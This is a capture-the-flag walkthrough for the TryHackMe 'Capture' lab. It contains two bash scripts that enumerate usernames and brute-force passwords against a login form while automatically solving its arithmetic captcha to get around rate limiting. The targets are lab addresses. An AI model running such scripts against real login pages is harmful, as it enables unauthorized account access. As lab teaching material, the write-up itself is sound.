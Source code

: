 # TryHackMe Capture Full Walkthrough

## Topics

- **authentication bypass**  
- **captcha bypass**
- **Scripting**

## Login page enumeration

Navigating to the site we are presented with a login page: 

![image](https://github.com/user-attachments/assets/f334ea32-66cf-4e46-80f3-d2dfba265526)

Lets put in some values in the input fields and see what sort of error message we get:

![image](https://github.com/user-attachments/assets/e0ddb161-76d2-4aa3-a975-98d618755a9a)

We can see here that the username field is vulnerable to username enumeration. This means that if we input the correct username it should give us a different error message. But we cannot just brute force the field with usernames.txt as the challenge states there is rate limiting involved.

This can be tested and seen if we enter the random values into the username and password fields several time. We will eventually end up with a captcha that looks something like this: 

![image](https://github.com/user-attachments/assets/8bed5783-47b4-4fc8-bacd-090977a8a6c9)

Once we solve the captcha then we get the same error message we got before:

![image](https://github.com/user-attachments/assets/f9f38a43-b2dc-412d-a822-584efb7e4940)

However, the mathematical problem is now different. So essentially for each username we brute force from our usernames.txt we will face a different mathematical problem each time that we need solve each time. So how can we speed things up?

## Scripting

We will need to write a script that can essentially brute force the username field with usernames.txt and solve the captcha fields for every single request we make. Lets call upon our friend ChatGPT to do this for us.

userenum script:

```bash
#!/bin/bash

# Loop through each username in the usernames.txt file
while IFS= read -r username
do
  # Fetch the HTML response for the username
  response=$(curl -s -X POST -d "username=$username&password=x" http://10.10.37.22/login)

  # Extract the CAPTCHA math question from the HTML
  captcha_question=$(echo "$response" | grep -oP '\d+ [\+\-\*/] \d+')

  # Extract the first number, operator, and second number from the CAPTCHA question
  num1=$(echo "$captcha_question" | awk '{print $1}')
  operator=$(echo "$captcha_question" | awk '{print $2}')
  num2=$(echo "$captcha_question" | awk '{print $3}')

  # Solve the CAPTCHA
  if [ "$operator" == "+" ]; then
    captcha_answer=$((num1 + num2))
  elif [ "$operator" == "-" ]; then
    captcha_answer=$((num1 - num2))
  elif [ "$operator" == "*" ]; then
    captcha_answer=$((num1 * num2))
  elif [ "$operator" == "/" ]; then
    captcha_answer=$((num1 / num2))
  fi

  # Send the POST request with the solved CAPTCHA
  response=$(curl -s -X POST -d "username=$username&password=admin&captcha=$captcha_answer" http://10.10.37.22/login)

  # Check if the user exists or not
  if echo "$response" | grep -q "The user &#39;$username&#39; does not exist"; then
    echo "User $username does not exist"
  else
    echo "Found valid user: $username"
    break
  fi
done < usernames.txt
```
Running this script we can find our valid username:

![image](https://github.com/user-attachments/assets/e770a6c4-5583-476d-972d-b47696b2dc11)

Now we just need to do the exact same thing but for the password field.

![image](https://github.com/user-attachments/assets/d87b23a0-d264-4de7-9bfe-fc117682d3a6)

We can see from the error message we have the correct username. We can re-use our script but just tweak it a bit to make it work for password. Doing this we get the following:

Password script

```bash
#!/bin/bash

# Loop through each password in the passwords.txt file
while IFS= read -r password
do
  # Fetch the HTML response for the password
  response=$(curl -s -X POST -d "username=natalie&password=$password" http://10.10.37.22/login)

  # Extract the CAPTCHA math question from the HTML
  captcha_question=$(echo "$response" | grep -oP '\d+ [\+\-\*/] \d+')

  # Extract the first number, operator, and second number from the CAPTCHA question
  num1=$(echo "$captcha_question" | awk '{print $1}')
  operator=$(echo "$captcha_question" | awk '{print $2}')
  num2=$(echo "$captcha_question" | awk '{print $3}')

  # Solve the CAPTCHA
  if [ "$operator" == "+" ]; then
    captcha_answer=$((num1 + num2))
  elif [ "$operator" == "-" ]; then
    captcha_answer=$((num1 - num2))
  elif [ "$operator" == "*" ]; then
    captcha_answer=$((num1 * num2))
  elif [ "$operator" == "/" ]; then
    captcha_answer=$((num1 / num2))
  fi

  # Send the POST request with the solved CAPTCHA
  response=$(curl -s -X POST -d "username=natalie&password=$password&captcha=$captcha_answer" http://10.10.37.22/login)

  # Check if the password exists or not
  if echo "$response" | grep -q "Invalid password for user &#39;natalie&#39;"; then
    echo "password $password does not exist"
  else
    echo "Found valid password: $password"
    break
  fi
done < passwords.txt
```


Running this we get the password:

![image](https://github.com/user-attachments/assets/7bf27dc4-1222-4d49-9ee8-3ed4f4d58879)

Now we can login and obtain our flag:


![image](https://github.com/user-attachments/assets/d27caa47-a299-45c0-ab43-a29083412be2)

Note you may need to run the following command a few times if it does not work. Note these are just Arbitrary values

```sh
curl -X POST -d 'username=admin&password=admin&captcha=405' http://10.10.131.181/login
```

















